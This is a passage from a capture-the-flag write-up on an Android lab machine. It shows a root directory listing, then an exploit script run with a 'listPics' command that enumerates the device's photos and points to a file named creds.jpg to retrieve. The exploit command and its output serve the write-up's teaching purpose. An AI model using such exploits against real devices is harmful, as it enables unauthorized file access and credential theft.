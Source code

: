 ```console
{"name":"mnt", "time":"8/30/22 02:42:47 PM", "type":"folder", "size":"240.00 Bytes (240 Bytes)", }, 
{"name":"init.zygote64_32.rc", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"875.00 Bytes (875 Bytes)", }, 
{"name":"init.zygote32.rc", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"511.00 Bytes (511 Bytes)", }, 
{"name":"init.usb.rc", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"5.51 KB (5,646 Bytes)", }, 
{"name":"init.usb.configfs.rc", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"7.51 KB (7,690 Bytes)", }, 
{"name":"init.superuser.rc", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"582.00 Bytes (582 Bytes)", }, 
{"name":"init.rc", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"29.00 KB (29,697 Bytes)", }, 
{"name":"init.environ.rc", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"1.04 KB (1,064 Bytes)", }, 
{"name":"init.android_x86_64.rc", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"3.36 KB (3,439 Bytes)", }, 
{"name":"init", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"2.29 MB (2,401,264 Bytes)", }, 
{"name":"fstab.android_x86_64", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"753.00 Bytes (753 Bytes)", }, 
{"name":"etc", "time":"3/25/20 03:41:52 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"dev", "time":"8/30/22 02:42:48 PM", "type":"folder", "size":"2.64 KB (2,700 Bytes)", }, 
{"name":"default.prop", "time":"8/30/22 02:42:46 PM", "type":"file", "size":"1.09 KB (1,118 Bytes)", }, 
{"name":"data", "time":"3/15/21 04:49:09 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"d", "time":"8/30/22 02:42:45 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"config", "time":"8/30/22 02:42:47 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"charger", "time":"12/31/69 07:00:00 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"cache", "time":"8/30/22 02:42:47 PM", "type":"folder", "size":"120.00 Bytes (120 Bytes)", }, 
{"name":"bugreports", "time":"12/31/69 07:00:00 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"bin", "time":"3/25/20 12:26:22 AM", "type":"folder", "size":"8.00 KB (8,192 Bytes)", }, 
{"name":"acct", "time":"8/30/22 02:42:46 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }
]
```
However by using the listPics command there is 1 that sticks out.

creds.jpg

```console
└──╼ [★]$ python3 poc.py --cmd listPics --host 10.129.50.183
[*] Executing command: listPics on 10.129.50.183
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}
```
Get the file with our exploit.
